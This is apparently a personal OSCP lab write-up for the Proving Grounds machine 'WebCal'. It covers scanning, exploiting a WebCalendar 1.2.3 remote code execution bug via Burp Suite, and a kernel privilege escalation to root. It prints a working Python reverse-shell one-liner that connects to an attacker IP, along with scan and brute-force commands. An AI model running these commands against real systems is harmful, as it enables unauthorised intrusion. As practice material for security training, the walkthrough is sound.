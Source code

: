 #### Enumeration

##### Nmap 

```
nmap -Pn -p- -sC -sV 192.168.191.37 -T4 -oN WebCal.nmap
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal%202021-06-24%20213757.png)

##### FTP

```
ftp -p 192.168.191.37 21 
```

Not allow anonymous login.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal%202021-06-24%20233404.png)

##### HTTP

Try to find exploits in the HTTP service first.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal%202021-06-25%20010855.png)

Click the NOTIFY ME button at the bottom right of the webpage. It leads to the send.php page.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal%202021-06-25%20012840.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal%202021-06-25%20013044.png)

Scan directories.

```
feroxbuster -u http://192.168.191.37 -w /usr/share/wordlists/directory-list-2.3-medium.txt
```
![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal%202021-06-25%20010345.png)

Analyze send.php in Burp Suite but I don’t know what it means, so I continue to look for other possibilities.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.25_14h42m26s_002_.png)

##### SMTP

Enumerate user names, nothing special.

```
smtp-user-enum -M RCPT -U /usr/share/wordlists/names.txt -t 192.168.191.37 -m 10 -f user@example.com
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal%202021-06-25%20092925.png)

Go back and scan directories with different dir list. Find the webcalendar.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.25_21h00m22s_006_.png)

Guess the login admin///admin (find in doc) but failed. (hydra with rockyou.txt failed :dizzy_face: )

```
http://<IP>/webcalendar/docs/WebCalendar-SysAdmin.html
```
![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.25_22h38m37s_009_.png)

Look for available vulnerabilities and find a [WebCalendar RCE](https://www.exploit-db.com/exploits/18775), because the server is running version 1.2.3, so it might work.

After reading the description. I plan to use Burp Suite to send the exploit request. Note that the code is written for use in PHP. The escape character backslash in the string must be removed. 

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_14h36m16s_008_.png)

I use the Repeater function to make it easier to test. First, send exploit payload.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_14h02m07s_002_.png)

Second, use a simple command to test whether the exploit is successful. Convert "ls" command string into base64 format "bHM=". 

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_14h37m37s_009_.png)

If you get response code 408 try to set the body encoding.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_14h18m42s_005_.png)

Now we can confirm that the exploit works and then try to send the reverse shell command. 

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_14h15m13s_004_.png)

Use the python command below to successfully get the connection. Convert the code to base64 format before sending.

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.191",21));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' 
```
![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_16h00m41s_016_.png)

www-data

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_14h32m54s_006_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_14h34m59s_007_.png)

#### Privilege Escalation

Execute linpeas.sh file to obtain suggestions.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_14h45m28s_011_.png)

![imahe](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_14h42m51s_010_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_14h46m39s_012_.png)

Reviewing the list, I found that the server uses an old version of the Linux kernel.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_15h00m12s_013_.png)

After Googling, there is a possible suitable vulnerability "empodipper".

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_15h02m29s_014_.png)

The first exploit way attempt failed.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_13h05m22s_001_.png)

The second exploit way attempts to successfully obtain root privileges.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_15h07m50s_015_.png)

